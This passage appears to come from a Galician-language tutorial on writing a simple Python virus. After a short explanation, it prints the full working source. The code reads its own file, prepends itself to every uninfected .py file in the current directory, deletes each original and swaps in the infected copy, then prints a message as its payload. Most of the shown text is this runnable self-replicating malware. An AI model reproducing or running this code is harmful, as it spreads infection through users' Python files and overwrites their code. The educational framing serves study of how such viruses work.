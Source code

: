 - **Código global**: Este código lee o arquivo que se está a executar, extrae o código do virus e chama á función 
  executa.
```python
portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[texto_portador.find("# Virus:Inicio"):texto_portador.rfind("# Virus:Fin") + len("# Virus:Fin")]
executa(virus)
```

O código do virus atópase situado entre dous comentarios: #Virus:Inicio e #Virus:Fin. Con estes comentarios pretendese 
coñecer a localización do código vírico en calquera arquivo (tanto os infectados coma o orixinal).

Unha vez explicadas polo miúdo as funcións do virus, o código final deste é o seguinte:

```python
# Virus:Inicio
import os
import sys


def infectar(virus):
    ruta = "."
    for arquivo in os.listdir(ruta):
        if arquivo.endswith(".py"):
            script = open(arquivo, "r")
            texto_script = script.read()
            script.close()
            if not "# Virus:Inicio" in texto_script:
                infectado = open(arquivo + ".infectado", "w")
                infectado.write(virus + "\n")
                infectado.write(texto_script)
                infectado.close()
                os.remove(arquivo)
                os.rename(arquivo + ".infectado", arquivo)


def payload():
    print("Fuches infectado")


def executa(virus):
    infectar(virus)
    payload()


portador = open(sys.argv[0], "r")
texto_portador = portador.read()
portador.close()
virus = texto_portador[texto_portador.find("# Virus:Inicio"):texto_portador.rfind("# Virus:Fin") + len("# Virus:Fin")]
executa(virus)
# Virus:Fin
```
